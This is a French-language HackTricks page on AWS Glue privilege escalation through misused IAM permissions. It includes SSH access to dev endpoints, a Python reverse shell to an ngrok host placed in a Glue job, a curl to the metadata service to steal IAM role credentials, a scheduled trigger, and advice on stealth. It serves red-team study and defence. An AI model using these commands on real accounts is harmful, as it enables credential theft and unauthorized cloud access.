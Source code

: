 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs ayant ces autorisations peuvent **configurer un nouveau point de terminaison de développement AWS Glue**, **en assignant un rôle de service existant pouvant être assumé par Glue** avec des autorisations spécifiques à ce point de terminaison.

Après la configuration, l'**attaquant peut se connecter en SSH à l'instance du point de terminaison**, et voler les identifiants IAM du rôle assigné :
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Pour des raisons de discrétion, il est recommandé d'utiliser les identifiants IAM depuis l'intérieur de la machine virtuelle Glue.

**Impact potentiel :** Privesc au rôle de service Glue spécifié.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs disposant de cette autorisation peuvent **modifier la clé SSH d'un point de terminaison de développement Glue** existant, **permettant l'accès SSH à celui-ci**. Cela permet à l'attaquant d'exécuter des commandes avec les privilèges du rôle attaché au point de terminaison :
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impact potentiel :** Privesc au rôle de service glue utilisé.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Les utilisateurs avec **`iam:PassRole`** combiné avec soit **`glue:CreateJob` ou `glue:UpdateJob`**, et soit **`glue:StartJobRun` ou `glue:CreateTrigger`** peuvent **créer ou mettre à jour un job AWS Glue**, en attachant n'importe quel **compte de service Glue**, et initier l'exécution du job. Les capacités du job incluent l'exécution de code Python arbitraire, qui peut être exploité pour établir un shell inversé. Ce shell inversé peut ensuite être utilisé pour exfiltrer les **identifiants IAM** du rôle attaché au job Glue, conduisant à un accès ou des actions non autorisées basées sur les permissions de ce rôle :
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impact potentiel :** Privesc au rôle de service glue spécifié.

### `glue:UpdateJob`

Juste avec la permission de mise à jour, un attaquant pourrait voler les identifiants IAM du rôle déjà attaché.

**Impact potentiel :** Privesc au rôle de service glue attaché.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
